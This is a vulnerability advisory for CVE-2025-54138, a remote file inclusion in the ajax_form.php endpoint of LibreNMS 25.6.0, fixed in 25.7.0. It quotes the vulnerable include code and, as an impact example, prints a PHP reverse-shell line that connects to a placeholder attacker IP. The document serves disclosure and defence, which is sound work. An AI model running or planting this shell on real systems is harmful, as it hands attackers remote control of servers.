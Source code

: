 # Authenticated Remote File Inclusion in `ajax_form.php` Allows RCE

#### CVE ID: CVE-2025-54138

#### Date: 2025-07-16

#### Author: Seth Kraft

#### Vendor Homepage: https://www.librenms.org/

#### Vendor Changelog: https://github.com/librenms/librenms/releases

#### Affected Version: 25.6.0

#### Fixed Version: 25.7.0 via [PR-17990](https://github.com/librenms/librenms/pull/17990)

#### CWE ID: [`CWE-98`](https://cwe.mitre.org/data/definitions/98.html) (Improper Control of Filename for Include/Require Statement in PHP Program)

#### Estimated CVSS Base Score: 7.5 (High)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`

#### Type: Remote PHP File Inclusion

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

LibreNMS 25.6.0 contains an architectural vulnerability in the `ajax_form.php` endpoint that permits Remote File Inclusion based on user-controlled POST input. 

The application directly uses the `type` parameter to dynamically include `.inc.php` files from the trusted path `includes/html/forms/`, without validation or allowlisting:

```php
if (file_exists('includes/html/forms/' . $_POST['type'] . '.inc.php')) {
    include_once 'includes/html/forms/' . $_POST['type'] . '.inc.php';
}
```
This pattern introduces a latent Remote Code Execution (RCE) vector if an attacker can stage a file in this include path via symlink, development misconfiguration, or chained vulnerabilities.

>  This is not an arbitrary file upload bug. But it does provide a powerful execution sink for attackers with write access (direct or indirect) to the include directory.

---

## Conditions for Exploitation

- Attacker must be authenticated    
- Attacker must control a file at `includes/html/forms/{type}.inc.php` (or symlink)        

## Example Impact (RCE)

If a PHP file or symlinked shell is staged in the include path, an attacker can achieve full remote code execution under the `librenms` user context:

```php
<?php system('/bin/bash -c "bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1"'); ?>
```

![Screen Recording 2025-06-25 212722](https://github.com/user-attachments/assets/9638d4b4-bfd6-4ace-8af1-8990c6736bc8)

---

## Solution

Upgrade to Version 25.7.0

## Disclaimer
This work was conducted outside of my employment and reflects my personal efforts in cybersecurity research.

---
